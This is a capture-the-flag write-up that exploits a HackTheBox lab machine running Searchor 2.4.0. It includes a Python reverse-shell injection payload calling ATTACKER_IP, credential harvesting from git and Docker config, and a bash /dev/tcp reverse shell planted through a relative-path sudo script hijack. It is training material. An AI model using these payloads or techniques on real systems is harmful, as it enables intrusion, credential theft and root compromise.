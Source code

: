  Initial Enumeration

I kicked things off with a full TCP port scan:

nmap -p- 10.10.11.208

Open ports:

    22/tcp → SSH

    80/tcp → HTTP

Browsing to port 80 showed a domain mismatch, so I mapped the hostname found in the browser to /etc/hosts:

echo "10.10.11.208 searcher.htb" >> /etc/hosts

🔍 Web Enumeration

The website was running Flask and using Searchor v2.4.0. A quick search revealed that version is vulnerable due to a dangerous use of eval():

url = eval(f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})")

This was patched in later versions. I found a working PoC here:
🔗 https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-

Payload used:

', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ATTACKER_IP',PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#

Replaced ATTACKER_IP and PORT with my own VPN details.
🐚 Initial Shell Access

Listener:

python3 -m pwncat
connect -lp 4444

Sent the payload through the search form… and BOOM — we landed a shell as svc.
User flag acquired ✅
🚀 Privilege Escalation - Part 1

I uploaded and executed linpeas:

upload /home/kali/Pentest/linpeas.sh /tmp/linpeas.sh
cd /tmp
bash linpeas.sh

Found a .git folder in /var/www/app/ with hardcoded credentials in config:

[remote "origin"]
url = http://cody:[REDACTED]@gitea.searcher.htb/cody/Searcher_site.git

These credentials were valid for the Gitea web interface, and revealed that cody (aka svc) is a user on the Git service.
Login successful ✅
⚙️ Privilege Escalation - Part 2

Used the Gitea password to check for sudo privileges:

sudo -l

Result:

(svc) may run as root:
/usr/bin/python3 /opt/scripts/system-checkup.py *

That script accepted 3 arguments:

    docker-ps

    docker-inspect

    full-checkup

🐳 Docker Recon

I ran:

sudo -u root /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps

Output:

gitea/gitea:latest (ID: 960873171e2e)
mysql:8 (ID: f84a6b33fb5a)

Then inspected the Gitea container:

sudo -u root /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' 960873171e2e

Output revealed environment variables with credentials:

"GITEA__database__USER=gitea",
"GITEA__database__PASSWD=[REDACTED]"

Tried logging into Gitea with several usernames — administrator + password worked. Now we had access to administrator's repos, including the source for system-checkup.py.
💣 Exploiting Full-Checkup

The script had this logic:

elif action == 'full-checkup':
    try:
        arg_list = ['./full-checkup.sh']

It tries to run ./full-checkup.sh from the current directory.

So I moved to /tmp (world-writable), and created a reverse shell script:

cd /tmp
echo "#!/bin/bash" > full-checkup.sh
echo "/bin/bash -i >& /dev/tcp/10.10.14.156/6666 0>&1" >> full-checkup.sh
chmod +x full-checkup.sh

Started listener:

python3 -m pwncat
connect -lp 6666

Triggered the script:

sudo -u root /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup

🏁 Root Access

Shell popped as root — mission accomplished.
Root flag captured ✅
